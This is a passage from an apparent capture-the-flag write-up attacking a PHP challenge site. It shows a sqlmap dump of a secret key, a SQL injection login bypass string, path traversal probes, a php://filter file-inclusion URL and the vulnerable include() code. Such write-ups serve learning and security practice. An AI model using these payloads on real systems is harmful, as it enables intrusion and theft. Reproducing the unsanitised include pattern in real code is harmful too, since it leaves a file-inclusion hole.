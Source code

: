 Finally we dump the column and get the secret key:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site -T secret_keys -C secret_key --dump
[CUT BY TROLLI101]
Database: pengus_site
Table: secret_keys
[1 entry]
+--------------------------------------------------------------------------------------------------+
| secret_key                                                                                       |
+--------------------------------------------------------------------------------------------------+
| K7WjFm6eaB3TDD5ZjtfxFVAdCQJaRHyphmpDkfvm7JaqP8rWHF6cXPDzRYqZCKw3xyeQrFmVL6n93J2WaL
nQU2efEfZPx2fv |
+--------------------------------------------------------------------------------------------------+
[CUT BY TROLLI101]
```

Which was useles, I was searching too far away. We could use a much simpler injection to login, entering this string in the login field to get logged in: `1' or '1' = '1`

But this was only the first part, fasten your seat belts! With the key we can now log into the website and are greeted by pengu and he is happy to have us as his customer. We now have access to 3 more pages:

- <http://7y4b2aymlqwmkyuh.onion/?p=106a6c241b8797f52e1e77317b96a201> main page, home
- <http://7y4b2aymlqwmkyuh.onion/?p=86024cad1e83101d97359d7351051156> products page
- <http://7y4b2aymlqwmkyuh.onion/?l> logout

We notice that the parameter `p` in the URL is actually a MD5 hash. When cracking both with online service we get two strings, "home" and "products" which makes sense since this is the name of the pages. We can then try some more things, I did a test with lots of file/directories hashed to md5 but only md5(index) gave something. When called, the following page will return ~12MB of data, looking like 255 times the home page.

Then I launched a new Burp scanner on the home page that returns a result about file path manipulation. And indeed, the response with both those URLs is identical:

- <http://7y4b2aymlqwmkyuh.onion/?p=86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=./86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=foo/../86024cad1e83101d97359d7351051156>
- <http://7y4b2aymlqwmkyuh.onion/?p=../www/86024cad1e83101d97359d7351051156>

So we're probably looking for some kind of include exploit, this is why the md5(index) page returned all this data. PHP code must be executed after the include. The page at [3] helped me to find the solution. We can use the `php://filter` to convert the md5(index) file to base64 and include it as base64 instead of being executed. This will allow us to have a look at the code before it is interpreted. This is done by calling the following URL: <http://7y4b2aymlqwmkyuh.onion/?p=php://filter/convert.base64-encode/resource=6a992d5529f459a44fee58c733255e86>

In the response, a base64 blob is included and we can decode it to get the index.php file. Here is an interesting excerpt:
```php
[CUT BY TROLLI101]
if(isset($_SESSION['k'])) {

  # <a href="?p=">Admin</a>&nbsp;

  echo '
    <a href="?p=106a6c241b8797f52e1e77317b96a201">Home</a>&nbsp;
    <a href="?p=86024cad1e83101d97359d7351051156">Products</a>&nbsp;
    <a href="?l">Logout</a>
    <br /><br />';

  include((isset($_GET['p']) ? $_GET['p'] : '106a6c241b8797f52e1e77317b96a201').'.php');
```